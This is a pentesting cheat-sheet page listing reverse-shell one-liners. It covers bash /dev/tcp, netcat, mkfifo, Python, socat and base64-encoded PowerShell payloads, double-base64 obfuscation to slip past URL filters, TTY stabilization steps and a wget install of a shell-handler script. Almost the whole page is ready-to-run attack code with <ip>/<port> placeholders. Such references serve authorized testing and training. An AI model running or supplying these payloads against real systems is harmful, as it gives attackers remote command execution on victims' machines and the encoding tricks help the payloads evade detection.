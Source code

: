 ```yaml
---
icon: book-skull
---
```


# Reverse Shells

## Reverse Shells

### Online Reverse Shell Generator

{% embed url="https://www.revshells.com/" %}
[https://www.revshells.com](https://www.revshells.com/)/
{% endembed %}

### Bash

{% tabs %}
{% tab title="Bash" %}
{% code overflow="wrap" %}
```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
{% endcode %}

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}
{% endtab %}

{% tab title="Base64" %}
We can encode the content in **base64**, to avoid conflicts with symbols and spaces in the URL. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

Generate the payload:

{% code overflow="wrap" %}
```bash
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64 | xargs -I{} echo "echo {}|base64 -d|base64 -d|bash"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python
```
{% endcode %}

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell

{% tabs %}
{% tab title="Base64" %}
Generate the payload:

{% code overflow="wrap" %}
```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le | base64 -w 0 | xargs echo "powershell -e"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Interactive TTY

{% tabs %}
{% tab title="Script" %}
```bash
script -qc bash /dev/null
```
{% endtab %}

{% tab title="Python" %}
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
{% endtab %}
{% endtabs %}

and then run:

```bash
# Press <Ctrl> + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```

#### Automatic Shell Stabilization

This script sets up a handler and automatically stabilizes Linux reverse shells. And for Windows machines uses `rlwrap` to allow command history, CTRL + L to clear the screen and other functions, also preventing CTRL + C from killing the session

{% embed url="https://github.com/NLXZ/pwnc/" %}

```sh
# Add it to your PATH
wget https://raw.githubusercontent.com/NLXZ/pwnc/refs/heads/main/pwnc.sh -O ~/.local/bin/pwnc
chmod +x ~/.local/bin/pwnc
```
